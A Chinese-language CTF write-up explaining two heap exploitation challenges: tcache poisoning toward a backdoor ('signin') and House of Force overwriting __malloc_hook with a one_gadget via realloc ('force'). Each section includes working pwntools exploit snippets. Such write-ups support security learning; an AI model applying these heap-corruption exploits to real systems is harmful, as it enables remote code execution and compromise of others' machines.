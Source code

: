 ```python
sla(':',str(0x60))
```

> 两道 something 似乎改编自 ACTF2020 的两道 SCP Foundation。

### signin

程序分配的块大小固定为 0x70，最多申请 9 个；`edit` 功能只能用一次，不过并没有检查 chunk 是否是 free 的；`delete` 检查了 chunk 是否为 free，并且释放之后将 chunk 对应的 `flag` 标记为 free，因此无法 double free，不过指针依然没有置 NULL。

此外还存在后门函数，先 `calloc(1,0x70)`，然后如果全局变量 `ptr` 不为空就能 getshell。题目环境为 Ubuntu 18，那么思路就是利用 tcache 机制。先填满 tcache，随后对 tcache 中第一个 chunk 投毒，即修改 `fd` 指向 `ptr` 上方的 fake chunk，然后申请出一块 tcache chunk，此时 fake chunk 就会进入 tcache 中。再申请一次即可 getshell。

```python
for i in range(8):
	add(i)
for i in range(8):
	free(i)

dbg()
edit(7,p64(0x4040c0-0x10))
add(8)
dbg()
sla('?','6')
dbg()
```

### force

程序没有对申请的大小进行检查，结合题目名可以想到 House of Force。先申请一个很大的 chunk 紧挨着 libc，可以泄露出 libc。这里的偏移是通过 gdb 调试得到的，将题目给出的地址和 `libc_base` 进行 `distance` 即可。随后修改 top chunk 大小同时泄露堆地址。这样 top chunk 地址也得到了。

接下来，我使用 `pwngdb` 工具，调试的时候先查看 `heapbase`，然后把这个地址作为参数传给 `force` 命令，即可得到 `nb=-48`，从而算出 `evil_size` 为 `malloc_hook-top-0x30`。申请一个 `evil_size` 大小的 chunk，然后再申请就能得到 `__malloc_hook` 附近的 chunk，由于 `one_gadget` 条件不满足，这里借用了 `realloc` 去覆盖 `__malloc_hook`。

```python
distance = 0x5b2010
base = add(0x20000)-distance
leak('base',base)

heap = add(0x10,'\x00'*0x18+p64(0xffffffffffffffff))-0x10
leak('heap',heap)
top = heap+0x20

malloc_hook = base+libc.sym['__malloc_hook']
one = base+0x4526a
realloc = base+libc.sym['realloc']

# force heapbase
evil = malloc_hook-top-0x30
add(evil)
payload = flat('a'*8,one,realloc+4)
add(len(payload),payload)

sla('puts\n','1')
sla('size\n',str(0x10))
```
